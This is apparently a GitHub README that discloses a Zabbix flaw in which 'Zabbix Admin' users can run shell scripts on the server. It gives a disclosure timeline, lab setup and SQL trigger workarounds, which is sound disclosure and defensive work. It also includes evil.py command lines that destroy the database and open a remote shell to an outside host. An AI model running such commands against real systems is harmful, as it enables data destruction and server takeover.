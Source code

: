 # Zbxsec-7

This repository contains a proof-of-concept of a security issue in [Zabbix](https://zabbix.com).

Any user with the "Zabbix Admin" role is able to run custom shell script on the application server in the context of the application user. The impact of this will vary, depending on OS, Zabbix version and how/which users are granted the "Zabbix Admin" role, but the users will probably have full database access and access to other secrets stored on the application server.

The issue is a "feature" that gives the "Zabbix Admin" role the ability to create actions that use remote commands and custom script. This custom script is run on the application server.

Links:

* https://www.zabbix.com/documentation/current/manual/web_interface/frontend_sections/configuration/actions
* https://www.zabbix.com/documentation/current/manual/config/notifications/action/operation/remote_command

Short history:

* The issue was reported to security@zabbix.com on July 30th, 2019.
* It was registered as https://support.zabbix.com/browse/ZBXSEC-7 on August 23rd, 2019.
* On Desember 10th, 2020, the Zabbix team was informed that after 90 days the issue could be posted publicly.
* The registered issue has had little activity. It was closed (and resolution set as "fixed") on Jan 29th, 2021.

The issue is still present (in all common new versions?) of Zabbix.

## Zabbix test instance

A test instance of Zabbix could be created with the "zabbix-simple" git submodule. It uses [podman](https://podman.io/getting-started/) and the [container images from zabbix](https://hub.docker.com/u/zabbix).

You should clone this repository with the `--recurse-submodules` argument or use `git submodule update --init` after a simple clone.

Follow the instructions in <./zabbix-simple/README.md>.

## Proof-of-concept

If you set up an instance with "zabbix-simple" you should have installed [pyzabbix](https://pypi.org/project/pyzabbix/), a user called "User" with the role "Zabbix Admin". The password of this user is "something-secret".

Destroy database:

```
python evil.py --activate http://127.0.0.1:8080 User something-secret destroy-database
```

Remote shell connecting to myhost.example.com:8000:

```
python evil.py --activate http://127.0.0.1:8080 User something-secret remote-shell myhost.example.com 8000
```

The trigger might ned few seconds/minutes to activate.

## Workaround

The only workaround I am aware of is through database triggers that prevent you from adding custom scripts.

### Postgres

```sql
CREATE FUNCTION raise_exception() RETURNS trigger AS $$
  DECLARE
    message TEXT;
  BEGIN
    message := TG_ARGV[0];
    RAISE exception '%', message;
  END;
$$ LANGUAGE plpgsql;

CREATE TRIGGER no_custom_script
BEFORE INSERT OR UPDATE ON opcommand
FOR EACH ROW
WHEN (NEW.type = 0)
EXECUTE FUNCTION raise_exception('No custom script');
```

### MySQL

```sql
DELIMITER //
CREATE TRIGGER no_custom_script_update
  BEFORE UPDATE ON opcommand
  FOR EACH ROW
BEGIN
  IF (NEW.type = 0) THEN
    SIGNAL SQLSTATE '45000' SET MESSAGE_TEXT = 'No custom script';
  END IF;
END //
CREATE TRIGGER no_custom_script_insert
  BEFORE INSERT ON opcommand
  FOR EACH ROW
BEGIN
  IF (NEW.type = 0) THEN
    SIGNAL SQLSTATE '45000' SET MESSAGE_TEXT = 'No custom script';
  END IF;
END //
DELIMITER ;
```
